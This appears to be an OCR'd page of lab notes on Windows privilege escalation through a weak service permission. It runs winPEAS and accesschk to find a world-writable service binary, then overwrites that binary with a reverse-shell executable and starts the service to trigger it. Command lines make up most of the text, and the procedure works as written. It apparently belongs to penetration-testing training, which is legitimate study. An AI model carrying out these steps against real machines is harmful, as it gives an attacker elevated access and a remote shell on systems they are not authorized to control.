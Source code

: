 1.Run winPEAS to check for service misconfigurations:

> .\winPEASany.exe quiet servicesinfo


2.Note that the “filepermsvc” service has an executable which appears to be
writable by everyone. We can confirm this with accesschk.exe:

> .\accesschk.exe /accepteula -quvw "C:\Program
Files\File Permissions Service\filepermservice.exe"


3.Create a backup of the original service executable:
> copy "C:\Program Files\File Permissions
Service\filepermservice.exe" C:\Temp

4.Copy the reverse shell executable to overwrite the service executable:
```
copy /Y C:\PrivEsc\reverse.exe "C:\Program
Files\File Permissions
Service\filepermservice.exe"
```

5.Start a listener on Kali, and then start the service to trigger the
exploit:
> net start filepermsvc